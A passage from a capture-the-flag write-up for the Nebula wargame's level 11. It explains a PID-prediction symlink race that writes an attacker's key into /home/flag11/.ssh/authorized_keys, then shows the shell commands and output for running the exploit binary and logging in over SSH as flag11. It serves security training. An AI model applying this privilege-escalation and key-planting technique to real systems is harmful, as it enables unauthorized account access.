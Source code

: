 Our exploit works by predicting the file that will be used by the `flag11`
binary, abusing the fact that Linux assigns PID numbers sequentially, and
symlinks that file to the `/home/flag11/.ssh/authorized_keys` file. We are able
to do this because permissions are not actually checked during the creation
of symbolic links.

Full credits to [@graugans][nebula-11-gist] for the idea.

```shell
level11@nebula:~$ gcc -o /home/level11/exploit /home/level11/exploit.c
level11@nebula:~$ /home/level11/exploit | /home/flag11/flag11
blue = 2048, length = 2048, pink = 395
blue = 1653, length = 2048, pink = 0
flag11: fread fail(blue = 1653, length = 2048): Operation not permitted
level11@nebula:~$ ls -lah /home/flag11/.ssh
total 4.0K
drwxr-xr-x 1 flag11 flag11   60 2018-01-01 04:28 .
drwxr-x--- 1 flag11 level11  60 2012-08-20 18:58 ..
-rw------- 1 flag11 level11 395 2018-01-01 04:28 authorized_keys
```

Once we have written the `authorized_keys` file, we are able to SSH in
as the flag11 user.

```shell
level11@nebula:~$ ssh -i /home/level11/.ssh/id_rsa flag11@127.0.0.1
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '12.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
flag11@nebula:~$ whoami
flag11
flag11@nebula:~$ id
uid=988(flag11) gid=988(flag11) groups=988(flag11)
flag11@nebula:~$ getflag
```

[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md